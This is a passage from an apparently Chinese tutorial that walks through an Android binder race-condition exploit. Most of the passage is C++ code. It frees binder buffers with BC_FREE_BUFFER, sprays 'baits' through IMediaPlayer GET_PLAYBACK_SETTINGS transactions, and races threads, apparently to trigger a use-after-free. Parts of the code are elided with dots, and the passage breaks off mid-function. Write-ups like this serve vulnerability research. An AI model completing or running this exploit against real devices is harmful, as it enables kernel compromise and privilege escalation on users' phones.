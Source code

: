 ```
 
void bc_free_buffer(int replyParcelIndex)
{
    replyArray[replyParcelIndex].~Parcel();
    IPCThreadState::self()->flushCommands();
}
 
void* bc_transaction(void *arg)
{
    .....
    dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
        IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
    .....
    return arg;
}
MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
mediaPlayer = mediaPlayerBase->creatMediaPlayer(); 
```

此部分理解起来不难，由于使用了很多 framework 层的 api，所以需要在 android 源码环境下编译。

2、我们刚刚说的执行 BC_FREE_BUFFER，是需要提前分配 binder_buffer，也就是分配后才能释放；这步叫放置诱饵。

```
void put_baits()
{
    //Avoid the reply data to be released by "~Parcel()"
    for (int i = 0; i < BAIT; i++)
    {
        dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
        IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
        gDataArray[i] = replyArray[i].data();
        /*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
        {
            printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
        }*/
        //printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
    }
}

```

3、竞争

```
void bc_free_buffer(int replyParcelIndex)
{
    replyArray[replyParcelIndex].~Parcel();
    IPCThreadState::self()->flushCommands();
}
 
void* bc_transaction(void *arg)
{
    pthread_mutex_lock(&alloc_mutex);
    while(1) 
    {
        pthread_cond_wait(&alloc_cond, &alloc_mutex);
        dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
    }
    pthread_mutex_unlock(&alloc_mutex);
        //const uint8_t * replyData = reply.data();
```